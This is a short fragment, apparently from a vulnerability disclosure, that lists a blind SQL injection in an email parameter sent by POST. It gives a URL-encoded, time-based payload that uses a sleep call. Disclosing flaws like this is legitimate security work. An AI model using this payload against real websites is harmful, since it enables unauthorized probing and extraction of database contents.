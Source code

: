 ### Blind SQL injections:

1) SQL injection email parameter via POST method:

   Payload: ``` '%2b(select*from(select(sleep(2)))a)%2b' ```
